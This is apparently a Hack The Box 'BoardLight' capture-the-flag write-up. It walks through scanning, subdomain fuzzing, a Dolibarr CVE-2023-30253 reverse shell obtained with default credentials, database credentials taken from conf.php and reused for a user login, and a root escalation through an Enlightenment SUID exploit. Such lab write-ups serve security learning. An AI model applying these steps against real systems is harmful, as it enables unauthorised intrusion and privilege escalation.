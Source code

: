Starting with the Nmap scan.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sC -Pn -A 10.10.11.11
```
```         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-20 05:00 EDT
Stats: 0:00:31 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 57.72% done; ETC: 05:01 (0:00:23 remaining)
Nmap scan report for 10.10.11.11
Host is up (0.70s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.15 seconds
```
SSH no use without username, password, or key.

HTTP site at port 80.

Clicking on the labels, the URL changes. But nothing much.
Upon trying the PHP URL tricks and checking on the website's source code, I saw an email given `info@board.htb`

This could be the domain name of the site.

I added the IP and domain name in the `/etc/hosts` file of my machine

Gobuster also doesn't help much with the directories it found. I remember doing the beginner machines on Hack The Box; with Gobuster, we can find subdomains. So I tried finding the subdomains but didn't find much.

So, instead, I used Ffuf to find the subdomains. With multiple tries, I got a subdomain.

```
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ ffuf -H "Host: FUZZ.board.htb" -u http://board.htb -w /usr/share/wordlists/wfuzz/general/common.txt -fs 15949

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://board.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/wfuzz/general/common.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 15949
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 265ms]
:: Progress: [951/951] :: Job [1/1] :: 129 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```
With this wordlist, I got Status:200 for all the searches, with size 15949. I searched on ChatGPT for size 15949, and this was the output
```
If you are fuzzing for subdomains or other resources, consistent response sizes might indicate typical content served by the server.
For example, if many responses have a size of 15949 bytes, this might be the size of a standard 404 error page or another common response.
```
So, I filtered it out and got the above.

Next, upon trying to log to the subdomain `crm.board.htb`, I was not able to do so. I searched on Google about subdomains, and upon reading, I found it is possible to have the same IP for the subdomains with the domains.

So, I also added the subdomain in the `/etc/hosts` on the same IP.

And I was able to visit the subdomain.

`Customer Relationship Management is a set of integrated, data-driven software solutions that help manage, track, 
and store information related to your company's current and potential customers.` from Google.

It uses `Dolibarr 17.0.0`. So I searched for an exploit on Google and found the exploit **(CVE-2023-30253)**.

This exploit grants us a reverse shell connection. It requires a username and password to be fed while running the exploit. I searched for default credentials for Dolibarr 17.0.0
and found it to be `admin|admin`.

I ran the exploit as it was mentioned and got the reverse shell with the username `www-data`.

I searched for other users and found one: **larissa**. I also tried the basic escalation techniques but was unsuccessful.

Next, I tried to find the configuration file and found `conf.php` on the `crm.board.htb/htdocs/conf`.

The output of the file has the following.
```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php

$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
```
Database name, username, and password are available here.
I accessed the MySQL data with the command:
```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ mysql -D dolibarr -u dolibarrowner -p
Enter password:
```
```
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 51
Server version: 8.0.36-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```
Going through the databases and trying to find something which can help me log into larissa, I didn't find anything.

Here, I saw some other writeups, and I found that using the password which was used to log in to the database will allow me to log in to Larissa.

And this should be the first thing to test: trying to log in with the known credentials because people often re-use their passwords.

```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su larissa
Enter password:
larissa@boardlight:/
```

Here also I tried the basic escalation- `sudo -l`, finding files with **SUID** permissions. I found a file `/usr/bin/vmware-user-suid-wrapper` with SUID permissions.

I searched on net for the exploit for vmware-user-suid-wrapper and found **CVE-2009-1142** to be the exploit. I couldn't find download link for this exploit so I turned to Linpeas.

But unfortunately, linpeas did not working properly. It might be some RAM issue. So I searched for more tools similar to linpeas and came across Linux Smart Enumeration.

I transferred the file to target machine and ran it. I got the outcome and this was among the outcomes:
```
[!] fst020 Uncommon setuid binaries........................................ yes!
---
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/bin/vmware-user-suid-wrapper
```
I checked for the enlightenment_ckpasswd exploit because this one contains **passwd**, and I found an exploit, which I copied to the target machine.

Changing the permissions and running the file, I got the root privilege.
```
larissa@boardlight:/tmp$ chmod 777 exploit.sh 
larissa@boardlight:/tmp$ ./exploit.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
# 
```

Again, the shell is not stable. We can stabilise the shell with the python command.
